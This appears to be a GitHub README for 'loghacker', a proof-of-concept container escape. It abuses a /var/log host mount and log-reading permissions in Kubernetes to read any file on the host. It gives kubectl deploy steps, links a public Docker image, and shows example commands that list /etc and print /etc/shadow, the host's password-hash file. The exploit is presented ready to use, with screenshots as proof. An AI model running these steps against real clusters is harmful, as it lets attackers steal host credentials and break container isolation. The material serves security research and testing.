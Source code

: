 # mount-var-log-hacker

If /var/mount is mounted into a container, and the serviceaccount in the container has permission to read logs, the application in the container can read any file on the host.

binary name: loghacker

public build image : https://hub.docker.com/r/shadowstar884/loghacker

deploy steps:
```bash
# step 1: create ns and cluster role
kubectl apply -f hack/cluster-role.yaml

# step 2: deploy loghacker
kubectl apply -f hack/deploy-loghacker.yaml

# step 3: attach log-hacker
kubectl exec -it -n mount-log log-hacker -- bash

# step 4: 
./loghacker

# happy loghackerrrrrr

# ./loghacker ls /etc
# ./loghacker cat /etc/shadow

```

pow:

![cat-pow](https://github.com/awslshadowstar/mount-var-log-hacker/assets/52888924/55e6599a-1e8d-4824-953b-2464665d5ef5)

![ls-pow](https://github.com/awslshadowstar/mount-var-log-hacker/assets/52888924/caa15335-bc5e-4fa7-80cb-74b351042b79)